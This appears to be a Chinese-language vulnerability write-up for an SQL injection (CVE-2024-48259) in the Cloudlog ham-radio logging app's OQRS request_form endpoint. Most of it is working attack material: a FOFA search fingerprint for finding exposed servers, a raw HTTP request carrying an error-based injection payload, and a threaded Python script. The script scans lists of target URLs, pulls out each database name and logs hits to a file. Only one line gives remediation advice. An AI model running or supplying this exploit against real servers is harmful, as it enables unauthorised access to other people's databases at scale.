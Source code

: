 # 漏洞描述
<font style="color:rgb(52, 58, 64);">Cloudlog是Peter Goodhall个人开发者的一个自托管的 PHP 应用程序。允许在任何地方记录业余无线电联系人。Cloudlog 2.6.15版本存在安全漏洞，该漏洞源于Oqrs.php页面的request_form函数中的station_id参数包含一个SQL注入漏洞。</font>

# <font style="color:rgb(52, 58, 64);">披露时间</font>
<font style="color:rgb(33, 37, 41);">2024-10-14</font>

# <font style="color:rgb(33, 37, 41);">来源</font>
[https://avd.aliyun.com/detail?id=AVD-2024-48259&timestamp__1384=eqIxcDBD9AYYqGKDQD%2Ffq0%3DeYnhxgGgQ4r%3DYD](https://avd.aliyun.com/detail?id=AVD-2024-48259&timestamp__1384=eqIxcDBD9AYYqGKDQD%2Ffq0%3DeYnhxgGgQ4r%3DYD)

# fofa语法
icon_hash="-460032467"

# 漏洞复现

poc

```http
POST /index.php/oqrs/request_form HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Length: 160
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/x-www-form-urlencoded

station_id=1 AND (SELECT(0)FROM(SELECT COUNT(*),CONCAT_WS(0x28,0x7e,0x72306f746833783439,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wXyW
```

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib.parse

# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间

def verify(url, proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36',
        'Content-Length': '160',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    data = '''station_id=1 AND (SELECT 3170 FROM(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT DATABASE()),0x7162717a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)'''
    vulurl = url + '/index.php/oqrs/request_form'
    try:
        r = requests.post(vulurl, headers=headers, data=data, proxies=proxies, verify=False, allow_redirects=False, timeout=timeout)
        if r.status_code == 500 and "qbqzq1' for key 'group_key'" in r.text:
            pattern = r"qqxzq(.*?)qbqzq"
            match = re.search(pattern, r.text)
            print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
            with open('CVE-2024-48259.txt', 'a') as f:
                f.write(url + ' ' + match.group(1) + '\n')
        else:
            print("[-] No vulnerabilities found")
    except requests.exceptions.RequestException as e:
        print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("Cloudlog  request_form 存在SQL注入漏洞".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies={}), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# <font style="color:rgb(33, 37, 41);">修复建议</font>
<font style="color:rgb(52, 58, 64);">建议您更新当前系统或软件至最新版，完成漏洞的修复。</font>

